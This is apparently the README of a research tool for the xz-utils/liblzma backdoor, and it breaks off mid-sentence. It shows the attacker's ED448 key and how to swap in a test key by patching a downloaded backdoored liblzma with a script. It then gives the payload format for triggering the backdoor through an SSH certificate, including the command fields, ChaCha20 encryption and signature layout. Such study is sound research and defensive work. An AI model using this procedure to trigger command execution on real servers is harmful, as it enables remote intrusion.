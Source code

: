 The attacker's ED448 key is:

0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
10 0c b0 6c 3a be 14 ee 89 55 d2 45 00 c7 7f 6e
20 d3 2c 60 2b 2c 6d 31 00
```
We will replace this key with our own (generated with seed=0):

5b 3a fe 03 87 8a 49 b2 82 32 d4 f1 a4 42 ae bd
e1 09 f8 07 ac ef 7d fd 9a 7f 65 b9 62 fe 52 d6
54 73 12 ca ce cf f0 43 37 50 8f 9d 25 29 a8 f1
66 91 69 b2 1c 32 c4 80 00
```

To start, download a backdoored libxzma shared object, e.g. from https://snapshot.debian.org/package/xz-utils/5.6.1-1. Then run the patch script. See assets/ for examples.

$ pip install pwntools
$ shasum -a 256 liblzma.so.5.6.1
605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  liblzma.so.5.6.1
$ python3 patch.py liblzma.so.5.6.1
Patching func at offset: 0x24470
Generated patched so: liblzma.so.5.6.1.patch
Then run sshd using this modified liblzma.so.5.6.1.patch shared object.

backdoor format
The backdoor can be triggered by connecting with an SSH certificate with a payload in the CA signing key N value. 
This payload must be encrypted and signed with the attacker's ED448 key.

The structure has the following format:

+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| cmd1 (32 bit) | cmd2 (32 bit) |         cmd3 (64 bit)         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                     ciphertext (240 bytes)                    +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
A command byte is derived from the three magic values above (cmd1 * cmd2 + cmd3). If this value is greater than 3, the backdoor skips processing.

The ciphertext is encrypted with chacha20 using the first 32 bytes of the ED448 public key as a symmetric key. As a result, we can decrypt any exploit attempt using the following key:

0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
The ciphertext has the following format:

+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     signature (114 bytes)     |  command \x00 |    padding    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
The signature is an RFC-8032 ED448 signature computed over the following values:
